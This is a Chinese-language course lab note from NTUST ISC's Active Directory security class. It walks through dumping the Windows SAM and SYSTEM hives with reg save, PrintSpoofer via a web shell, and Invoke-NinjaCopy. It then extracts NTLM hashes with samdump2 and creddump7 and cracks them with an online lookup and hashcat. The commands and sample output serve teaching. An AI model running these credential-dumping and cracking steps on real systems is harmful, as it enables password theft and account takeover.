 ```yaml
---
title: NTUSTISC - AD Note - Lab(Brute Force SAM)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(Brute Force SAM)
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
得到更高權限之後，會想要更多的密碼
* 密碼收集
    * SAM.hive(Security Account Manager)
        * What: 就是一個用於windows的數據庫文件，用於==儲存用戶的密碼==，並且對於本地端或遠端的使用者進行身分認證
        * Where: `C:\Windows\System32\config\SAM`
    * Password Spraying(用猜的)
    * GPO
    * 記憶體(lsass)

## Lab

### ==Brute Force SAM==
前面有提到SAM在哪裡，所以只要直接打開就看的到密碼了嗎?你會得到一個access denied的錯誤，原因是他已經被設定成read lock了，導致目前無法正常存取
![](https://hackmd.io/_uploads/SyEUVnMRn.png)

1. 匯出SAM File
主要目的就是把SAM file和SYSTEM file dump下來，而方法就是利用reg.exe(Windows註冊碼工具)，用指令的方式存取
    ```bash!
    $ reg save HKLM\SAM <save filename>
    $ reg save HKLM\SYSTEM <save filename>
    ```
    * 錯誤的方式
        但經過cmd用普通權限實測會發現我們沒有這樣的資格
        ```bash!
        $ reg save HKLM\SAM SAM.dump
        錯誤: 用戶端沒有這項特殊權限。
        ```
        其實也很合理，不然所有人都可以直接存取意味著只要摸到其中一臺普通權限的AD，所有機敏資料都會外洩，這就是為甚麼前面需要提權的原因，只有最高權限的帳戶可以存取這兩個file
    * 正確的方式-1
        用前面提到的web shell，打出以下指令，則SAM file就會dump到`C:\inetpub\wwwroot\sam.zip`
        ```bash!
        $ c:\tools\PrintSpoofer64.exe -c "reg save HKLM\SAM C:\inetpub\wwwroot\sam"
        ```
    * 正確的方式-2
        利用[Invoke-NinjaCopy.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-NinjaCopy.ps1)這個腳本，就可以複製出來，原理是使用windows的影子複製
        ```bash!
        $ .\Invoke-NinjaCopy -Path SAM -LocalDestination C:\tools\SAM_COPY
        ```
        但是經過實測，發現執行雖然有成功但是沒有任何檔案被dump出來，可能中間有些過程有誤?
        :::info
        如果要用這個方法，PowerShell要以管理員權限打開，然後如果有遇到如下error message，可以參考這邊[^ps-error-solution]解決問題
        ```bash
        .\Invoke-NinjaCopy : 因為這個系統上已停用指令碼執行，所以無法載入 C:\tools\Invoke-NinjaCopy.ps1 檔案。如需詳細資訊，請參閱 about_Execution_Policies，網址為 https:/go.microsoft.com/fwlink/?LinkID=135170。
        位於 線路:1 字元:1
        + .\Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestina ...
        + ~~~~~~~~~~~~~~~~~~
            + CategoryInfo          : SecurityError: (:) [], PSSecurityException
            + FullyQualifiedErrorId : UnauthorizedAccess
        ```
        :::
2. 解析SAM內容
    拿到SAM的內容之後還需要解析他，可以用kali的samdump2解析
    * Win10 v1607之前的解法
        ```bash
        $ samdump2 system sam 
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        *disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        :1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        ```
        ![](https://hackmd.io/_uploads/HyJXHazCn.png)
        可以看到很多都是disabled，就代表我們要用下面的解法
    * Win10 v1607之後
    因為這個版本之後有用到AES加密，所以可以用[Creddump7](https://github.com/CiscoCXSecurity/creddump7)，建議使用anaconda這樣的虛擬環境，不然直接用內建的virtualenv會出事，
        ```bash
        $ conda activate py2.7
        $ pip install pycrypto
        $ git clone https://github.com/CiscoCXSecurity/creddump7.git
        $ python pwdump.py system sam
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:7ecffff0c3548187607a14bad0f88bb1:::
        Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e3180c5331aad6ad1ac787749e6c4819:::
        user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        low:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        ```
3. 解析Hash
    * 方法一：用online database
        接著就是把NTLM Hash丟到隨便的database看有沒有紀錄，例如[cmd5](https://www.cmd5.com/)，如果把最前面找到的`31d6cfe0d16ae931b73c59d7e0c089c0`會顯示空密碼，但我們都知道是錯的
        ![](https://hackmd.io/_uploads/SkKrp6zCn.png)
        而如果拿Creddump解析出來的`7ecffff0c3548187607a14bad0f88bb1`，就可以直接顯示出我們的密碼
        ![](https://hackmd.io/_uploads/H1ZAhpz02.png)
    * 方法二：爆字典檔
        在kali中的/usr/share/wordlists有一些字典檔可以用，例如rockyou等等，可以先用看看
        ```bash
        $ sudo gunzip /usr/share/wordlists/rockyou.txt.gz
        $ cp /usr/share/wordlists/rockyou.txt ./
        $ hashcat -a 0 -m 1000 ntlm.hash rockyou.txt --force
        ...
        31d6cfe0d16ae931b73c59d7e0c089c0:                         
        7ecffff0c3548187607a14bad0f88bb1:1qaz@WSX3edc
        ...
        ```

# Reference
[^ps-error-solution]:[PowerShell 「系統上已停用指令碼執行」解決方法](https://hackercat.org/windows/powershell-cannot-be-loaded-because-the-execution-of-scripts-is-disabled-on-this-system)